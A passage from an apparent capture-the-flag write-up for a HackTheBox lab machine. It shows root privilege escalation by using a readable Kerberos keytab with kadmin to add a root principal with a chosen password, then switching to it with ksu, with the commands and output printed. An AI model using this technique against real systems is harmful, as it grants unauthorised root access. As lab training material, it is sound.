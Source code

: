 The keytab file contains the principles and encrypted keys for users which can access the machine. This means we can escalate to any user user by adding a keytab entry for him with a password of our choice. We do this for the root user, using the kadmin functionality choosing a password of our liking.

```py
[admin@srv01 ~]$ kadmin -k -t /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB
Couldn't open log file /var/log/kadmind.log: Permission denied
Authenticating as principal kadmin/admin@REALCORP.HTB with keytab /etc/krb5.keytab.

kadmin:  add_principal root@REALCORP.HTB
No policy specified for root@REALCORP.HTB; defaulting to no policy
Enter password for principal "root@REALCORP.HTB": 
Re-enter password for principal "root@REALCORP.HTB": 
Principal "root@REALCORP.HTB" created.
kadmin:  exit
```

Finally we use ksu to switch to our newly created principle with our chosen password and are able to read the flag as the root user.

```php
[admin@srv01 ~]$ ksu root
WARNING: Your password may be exposed if you enter it here and are logged 
         in remotely using an unsecure (non-encrypted) channel. 
Kerberos password for root@REALCORP.HTB: : 
Authenticated root@REALCORP.HTB
Account root: authorization for root@REALCORP.HTB successful
Changing uid to root (0)
[root@srv01 admin]# wc -c /root/root.txt
33 /root/root.txt
```
